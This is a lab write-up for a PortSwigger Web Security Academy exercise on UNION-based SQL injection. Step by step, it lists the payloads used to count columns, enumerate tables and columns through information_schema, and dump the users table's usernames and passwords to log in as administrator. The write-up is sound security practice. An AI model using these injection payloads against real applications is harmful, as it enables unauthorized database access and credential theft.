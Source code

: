 ```yaml
---
title: 'Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection attack, listing the database contents on non-Oracle databases :four:
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description:  This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 
* Goal: To solve the lab, log in as the administrator user.

## Exp
1. Determine # of columns
Payload: `?category=Gifts' union select NULL,NULL --`

2. Determine which column contained text string
Payload: `?category=Gifts' union select 'a','b' --`

3. According to [cheat sheet](https://portswigger.net/web-security/sql-injection/examining-the-database)
We can use `information_schema.tables` to search `table_name`
For instance: `SELECT * FROM information_schema.tables`
![](https://i.imgur.com/ThON4MR.png)

    Payload: `?category=Gifts' union SELECT TABLE_NAME,NULL FROM information_schema.tables--`
    :::spoiler Result
    ![](https://i.imgur.com/DhL1g5i.png)
    :::
4. Then tried the specific one - `users_rjrgxf`
Payload: `?category=Gifts' union SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE table_name = 'users_rjrgxf'--
`
    :::spoiler Result
    ![](https://i.imgur.com/egzZ49U.png)
    :::
5. Tried dig deeper
    Payload: `?category=Gifts' union SELECT username_ngqqos,password_jraqsv FROM users_rjrgxf--
    `
    Then you'll get the password of `administrator` $\to$ login directrly
    :::spoiler Success Screenshot
    ![](https://i.imgur.com/CKhLZdj.png)
    :::

## Reference